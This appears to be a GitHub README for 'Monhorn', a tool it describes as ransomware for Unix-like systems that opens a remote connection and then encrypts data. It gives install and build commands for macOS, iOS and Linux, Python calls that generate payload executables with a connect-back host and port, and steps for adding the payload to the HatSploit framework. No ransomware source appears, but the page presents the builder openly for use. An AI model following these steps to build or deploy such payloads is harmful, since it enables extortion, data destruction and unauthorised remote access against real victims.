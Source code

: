 # Monhorn

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Monhorn">
        <img src="https://img.shields.io/badge/language-C-grey.svg">
    </a>
    <a href="https://github.com/EntySec/Monhorn/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/Monhorn?color=yellow">
    </a>
</p>

Monhorn is an implementation of HatSploit ransomware for Unix-like systems, that firstly establishes a remote connection and then begins crypto operations.

## Installing

You should install HatSploit to get Monhorn, because Monhorn depends on HatSploit Framework.

```
pip3 install git+https://github.com/EntySec/HatSploit
```

## Building Monhorn

**Dependencies:** `openssl`, `libssl-dev`

These are platforms which are supported by Monhorn.

* **macOS** - `make all platform=macos sdk=<path>`
* **Apple iOS** - `make all platform=apple_ios sdk=<path>`
* **Linux** - `make all platform=linux`

**NOTE:** To compile for target `macos` you will need to download patched SDKs from [here](https://github.com/phracker/MacOSX-SDKs) and to compile for `apple_ios` target you will need to download patched SDKs from [here](https://github.com/theos/sdks).

## Basic usage

To use Monhorn and build payloads you should import it to your source.

```python3
from pwny import Monhorn
from pwny import MonhornSession
```

* `Monhorn` - Monhorn utilities, mostly for generating payloads and encoding arguments.
* `MonhornSession` - Wrapper for `HatSploitSession` for Monhorn, HatSploit should use it with Monhorn payload.

To get Monhorn template, you should call `get_template()`.

```python3
from monhorn import Monhorn

monhorn = Monhorn()
template = monhorn.get_template('linux', 'x64')
```

To encode Monhorn data, you should call `encode_data()`.

```python3
from monhorn import Monhorn

monhorn = Monhorn()
args = monhorn.encode_data('127.0.0.1', 8888)
```

To get Monhorn executable, you should call `get_monhorn()`.

```python3
from monhorn import Monhorn

monhorn = Monhorn()
executable = monhorn.get_monhorn('linux', 'x64', '127.0.0.1', 8888)
```

**NOTE:** If you want Monhorn to connect you should specify both `host` and `port`, but if you want Monhorn to listen, you should specify only `port`.

## Adding Monhorn payload

To add Monhorn payload to HatSploit you should follow these steps.

* Write a basic HatSploit payload template.
* Import `Monhorn` and `MonhornSession` and put `Monhorn` to `HatSploitPayload` class.
* Set payload parameter `Session` to `MonhornSession`.
* Return `get_monhorn()` with platform, architecture and host and port specified.

```python3
return self.get_monhorn(
    self.details['Platform'],
    self.details['Architecture'],
    remote_host,
    remote_port
)
```
